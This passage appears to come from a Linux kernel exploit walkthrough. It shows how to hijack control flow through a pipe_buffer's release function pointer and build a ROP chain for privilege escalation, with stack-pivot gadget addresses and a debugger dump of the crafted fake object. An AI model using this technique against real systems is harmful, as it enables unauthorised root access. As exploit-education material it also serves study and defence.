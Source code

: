 ## Step 6: ROP chain

Now that our `pipe_buf` is set up, we can start planning our ROP chain to priv escalate! We will be using `ops.release`
to control RIP, which is called when `pipe_buf` is closed. 

```c
void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
```

As we can see, the second argument to `release`, in `rsi`, will be the address of the `pipe_buf` that we're freeing.
Thus, `rsi` is quite a good register to focus on to stack pivot, since we can control the contents of the address at
which it's pointing to. This is why we can't use `msg_msg` and need to use `sk_buff` instead, because we don't have
control over the start of `msg_msg` and thus can't make a good fake stack.

### Stack pivot 1

Let's find a good stack pivot gadget first. Gadgets that end with `ret` are not suitable, because our stack isn't setup
yet, so we can't ROP properly. `call` or `jmp` on a register we control like `rsi` are the best.

```
0xffffffff81556dc6 : push rsi ; jmp qword ptr [rsi + 0x39]
0xffffffff81602195 : push rsi ; jmp qword ptr [rsi - 0x7d]
0xffffffff81602d23 : push rsi ; jmp qword ptr [rsi - 0x7f]
```

There are actually a lot more suitable gadgets, but these are the most straightforward. `[rsi + 0x39]` is under our
control, so we can put a second gadget there. The point of `push rsi` is to put a pointer we control at the top of the
original stack, so our second gadget can simply be `pop rsp` which will change `rsp` to the saved value of `rsi`, and
complete the stack pivot.

```
0xffffffff81135dff : pop rsp ; ret
```

### Stack pivot 2

Let's take a step back and look at our current `sk_buff/pipe_buf` object:

```
gef> x/200gx 0xffff8881026ca400
0xffff8881026ca400:     0x0000000000000000      0x0000000000000000
0xffff8881026ca410:     0xffff8881026ca690      0x0000000000000000
0xffff8881026ca420:     0x0000000000000000      0x0000000000000000
0xffff8881026ca430:     0x0000000000000000      0xffffff81135dff00 // +0x39
0xffff8881026ca440:     0x00000000000000ff      0x0000000000000000
...
0xffff8881026ca690:     0x0000000000000000      0xffffffff81556dc6 // +0x290
0xffff8881026ca6a0:     0x0000000000000000      0x0000000000000000
```
